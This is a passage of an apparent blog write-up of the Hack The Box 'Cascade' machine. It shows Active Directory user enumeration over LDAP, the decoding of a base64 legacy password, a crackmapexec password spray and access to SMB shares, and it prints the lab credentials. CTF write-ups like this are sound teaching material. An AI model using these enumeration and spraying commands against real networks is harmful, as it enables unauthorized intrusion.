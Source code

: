 ```yaml
---
title: "Writeup: Cascade from Hack The Box"
author: Asier Núñez
pubDatetime: 2025-01-08T19:51:29.606Z
slug: cascade-writeup
featured: false
draft: false
tags:
  - Windows
  - Active Directory
  - Security
  - Ethical Hacking
  - GPP
  - SPN
  - Hashcat
  - TGT
description: "Writeup for the Cascade machine from Hack The Box, a Windows Active Directory"
---
```


# Enumeration

Domain: CASCADE.LOCAL
CN: CASC-DC01

After trying to enumerate with anonymous and guest users via SMB and not getting any results, we can try to use `windapsearch` to enumerate users.

```bash
./windapsearch-linux-amd64 -d cascade.local --dc 10.129.92.161 -m users
```

This will give us a list of users and their attributes. We can create a list of users with the following command:

```bash
./windapsearch-linux-amd64 -d cascade.local --dc 10.129.92.161 -m users | grep sAMA | awk '{print $2}' > users
```

If we take a look at the information obtaied via LDAP, we can see that `Ryan Thompson` has a legacy password set.

![LegacyPassword](@assets/images/writeups/htb/cascade/legacypass.png)

This password is encoded using base64, so we can decode it to get the plaintext password.

![LegacyPass-Decode](@assets/images/writeups/htb/cascade/legacypass-decode.png)

```
r.thompson:rY4n5eva
```

We can use crackmapexec to spray the password over the users to validate if it belong to Ryan or any other user.

```bash
crackmapexec smb 10.129.92.161 -u users -p 'rY4n5eva' --continue-on-success
```

![Pass-Spray](@assets/images/writeups/htb/cascade/pass-spray.png)

Now we can access the SMB shares with the credentials of Ryan.

```bash
crackmapexec smb 10.129.92.161 -u r.thompson -p 'rY4n5eva' --shares
```

![CME-Shares](@assets/images/writeups/htb/cascade/cme-shares.png)

```bash
smbclient \\\\10.129.92.161\\DATA -U r.thompson
```

![SMB-Data](@assets/images/writeups/htb/cascade/smb-data.png)

If we open the DATA share, we can find a file called `Meeting_Notes_June_2018.html`.

![SMB-Email](@assets/images/writeups/htb/cascade/smb-email.png)
